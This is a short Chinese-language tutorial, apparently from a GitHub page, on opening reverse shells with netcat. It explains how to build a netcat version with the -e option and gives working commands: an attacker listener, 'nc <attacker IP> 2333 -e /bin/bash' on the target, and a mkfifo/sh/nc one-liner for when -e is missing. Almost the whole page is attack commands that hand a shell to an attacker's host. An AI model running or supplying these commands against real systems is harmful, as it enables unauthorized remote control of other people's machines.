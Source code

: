 Netcat 是一款简单的Unix工具，使用UDP和TCP协议。它是一个可靠的容易被其他程序所启用的后台操作工具，同时它也被用作网络的测试工具或黑客工具。使用它你可以轻易的建立任何连接。

### 1、nc有-e选项可用

目前，默认的各个linux发行版本已经自带了netcat工具包，但是可能由于处于安全考虑原生版本的netcat带有可以直接发布与反弹本地shell的功能参数 -e 都被阉割了

![img](assets/1668675578369-a3c16b3a-054d-4dcb-ba77-e058dcaca8ad.png)

所以我们需要自己手动下载二进制安装包，安装的如下：

```shell
wget https://nchc.dl.sourceforge.net/project/netcat/netcat/0.7.1/netcat-0.7.1.tar.gztar -xvzf netcat-0.7.1.tar.gz./configuremake && make installmake clean
```

安装完原生版本的 netcat 工具后，便有了netcat -e参数，我们就可以将本地bash反弹到攻击机上了。

**攻击机开启本地监听：**

```shell
netcat -lvvp 2333
```

**目标机主动连接攻击机：**

```shell
nc 192.168.1.130 2333 -e /bin/bash
nc <攻击机IP> <攻击机监听的端口> -e /bin/bash
```

### 2、nc无-e选项可用的情况

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.130 2333 >/tmp/f
```

**简单的解释：**

mkfifo 命令首先创建了一个管道，cat 将管道里面的内容输出传递给/bin/sh，sh会执行管道里的命令并将标准输出和标准错误输出结果通过nc 传到该管道，由此形成了一个回路

![img](assets/1668676068122-0b0b1105-68fc-467a-97e7-5d5c04a7f3b4.png)

![img](assets/1668676093108-ed66e1ab-8843-48d5-9b7b-9e863d04af7d.png)
